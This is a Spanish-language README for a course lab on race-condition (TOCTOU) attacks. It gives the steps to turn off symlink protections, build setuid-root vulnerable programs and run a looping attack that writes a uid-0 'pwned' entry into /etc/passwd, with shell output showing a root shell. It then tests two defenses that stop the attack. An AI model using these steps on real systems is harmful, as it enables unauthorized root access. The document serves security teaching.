# RaceConditionTEC

Tarea de condiciones de carrera

# Requisitos

- Ubuntu (24.10) en ARM
- vMWare Fusion o similar

# Pasos iniciales

1. Pasar archivos voip a la maquina virtual

```
# Servidor de archivos en macOS de atacante
python3 -m http.server 80

# Traer los archivos desde la maquina virtual
curl http://IP/vulp.c -o vulp.c
curl http://IP/vulp_repetition.c -o vulp_repetition.c
curl http://IP/vulp_seteuid.c -o vulp_seteuid.c
curl http://IP/looper.sh -o looper.sh
```

2. Eliminar protecciones de seguridad de symlinks para efectos de la tarea

```
# Esto parece restablecerse siempre por lo que es mejor ejecutarlo cada vez que se inicia la VM
sudo sysctl -w fs.protected_symlinks=0
sudo sysctl fs.protected_regular=0
```

3. Compilar el programa `vulp.c`, `firegoblin.c` y asignar permisos de setuid de root

```
# Mismo proceso para todos los vulp*.c
gcc vulp.c -o vulp -lm
sudo chown root vulp
sudo chmod 4755 vulp

gcc firegoblin.c -o firegoblin
```

# Trabajo 1

Agregar entrada a `/etc/shadow` y `/etc/password` para un nuevo usuario `root` mediante un ataque al programa `vulp`.

1. Agregar nuevo usuario como prueba de como se agrega en `/etc/shadow` y `/etc/password`

```
# useradd pwned -m -G sudo
# passwd pwned

# cat /etc/shadow
pwned:$y$j9T$yb7F48eurkR2ZugVrkr4U/$TkSO.sGjtjyki/IlF018wo6kw7zd4nUUrhE9emRNb7C:20237:0:99999:7:::

# cat /etc/passwd
pwned:x:1001:1001::/home/pwned:/bin/sh
```

Es necesario para el ataque que este se asemeje a `root` y tenga los valores de 0 en `/etc/passwd`

Por lo que debería verse asi:

```
# cat /etc/passwd
pwned:$y$j9T$yb7F48eurkR2ZugVrkr4U/$TkSO.sGjtjyki/IlF018wo6kw7zd4nUUrhE9emRNb7C:0:0:pwned:/root:/bin/bash
```

No es necesario editar `/etc/shadow`, ya que es posible realizar una entrada en `/etc/passwd`
por medio de utilizar un hash como contraseña, una manera de hacerlo es creando un usuario
y copiándolo el valor por medio de `/etc/shadow`.
Porque se tiene la contraseña en lugar de "x" es posible
no tener que modificar ambos.

2. Ejecutar el ataque

Es necesario ejecutar el ataque por medio de un loop, ya que al ser un ataque de condición de carrera,
tiene que correrse en paralelo multiples veces hasta encontrar el éxito.

```
$ ./firegoblin

// En otra terminal
$ chmod +x looper.sh
$ ./looper.sh 
```

A cierto momento se debería recibir el mensaje de éxito en la terminal de looper
y se debería poder acceder al usuario creado y verificar que es root.

```
$ ./looper.sh 
PWNED :). El archivo /etc/passwd tiene que haber sido modificado.
$ su pwned
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /etc/passwd
pwned::0:0:pwned:/root:/bin/bash
```

## Mejora de la tasa de éxito

Se redujo el valor de delay a 0 para comprobar si existe problemas para explotar la vulnerabilidad.
Se determinó que todavía se puede ejecutar la vulnerabilidad sin problema alguno y sin una perdida
en la tasa de éxito, esto, dado al uso de la función `renameat2`, que previene condiciones de carrera en
el script atacante `firegoblin.c`.

# Trabajo 2

Se realiza una modificación del programa `vulp.c` y se crea `vulp_repetition.c` que valida y abre el mismo archivo
varias veces con el fin de determinar si todos son el mismo archivo o no y ejecutar la concatenation de los caracteres
enviados.

Esto tiene el fin de hacer más difícil que se haga el ataque al tener que sobrepasar varias de estas pruebas. Para este
efecto se realizaron cuatro cadenas de verificación.

```
$ ./firegoblin

# En otra terminal (se modifica looper.sh para que use vulp_repetition)
$ ./looper.sh
b./looper.sh: line 14: 34543 Done                    echo 'pwned::0:0:pwned:/root:/bin/bash'
     34544 Segmentation fault      (core dumped) | ./vulp_repetition
No permission fp3 
No permission fp4 
./looper.sh: line 14: 34552 Done                    echo 'pwned::0:0:pwned:/root:/bin/bash'
     34553 Segmentation fault      (core dumped) | ./vulp_repetition
No permission fp2 
Existe algun file descriptor invalido 
Los file descriptors no apuntan al mismo archivo 
No permission fp 
No permission fp3 
No permission fp4 

```

En suma, se dejó el programa `looper.sh` corriendo durante un tiempo de 5 minutos y no se obtuvieron los resultados
anteriormente vistos, no fue posible realizar el ataque y el script menciona que no existen
los permisos para abrir el archivo tanto a nivel de la función `access` como en `fopen`.

Al bajar el nivel a solo dos verificaciones en lugar de cuatro,
si se pudo lograr modificar el archivo, pero con una tasa de éxito un poco menor,
se tomó menos de 10 segundos.

# Trabajo 3

Principio de privilegio mínimo.

En esta parte se crea un nuevo script llamado `vulp_seteuid.c` que se encarga de bajar los privilegios del usuario
ejecutante del proceso al usuario que lo ejecuto, todo esto antes de las llamadas `access` y `fopen`.

Esto hace que aunque se den permisos de `SETUID` `root` al programa, este a nivel de código de manera explícita
los configura para bajar el nivel y que al momento de leer `/etc/passwd` en modo `a+` no se pueda, ya que el usuario
original no tiene permisos de `root` y no puede acceder al archivo de esta manera.

```
./firegoblin

## En otra terminal (se modifica looper.sh para que use vulp_seteuid)
$ ./looper.sh
     35397 Segmentation fault      (core dumped) | ./vulp_seteuid
No permission 
./looper.sh: line 14: 35411 Done                    echo 'pwned::0:0:pwned:/root:/bin/bash'
     35412 Segmentation fault      (core dumped) | ./vulp_seteuid
./looper.sh: line 14: 35423 Done                    echo 'pwned::0:0:pwned:/root:/bin/bash'
     35424 Segmentation fault      (core dumped) | ./vulp_seteuid
./looper.sh: line 14: 35432 Done                    echo 'pwned::0:0:pwned:/root:/bin/bash'
     35433 Segmentation fault      (core dumped) | ./vulp_seteuid
No permission 
No permission 
No permission 
./looper.sh: line 14: 35453 Done                    echo 'pwned::0:0:pwned:/root:/bin/bash'
     35454 Segmentation fault      (core dumped) | ./vulp_seteuid
No permission 
```

Como se observa anteriormente, ya no se puede realizar el ataque porque por más que se haya
utilizado `setuid` como `root`, el programa baja los privilegios antes de realizar los accesos a los archivos.

Por ende no es posible ejecutar el ataque utilizando el mismo `./firegoblin.c`.
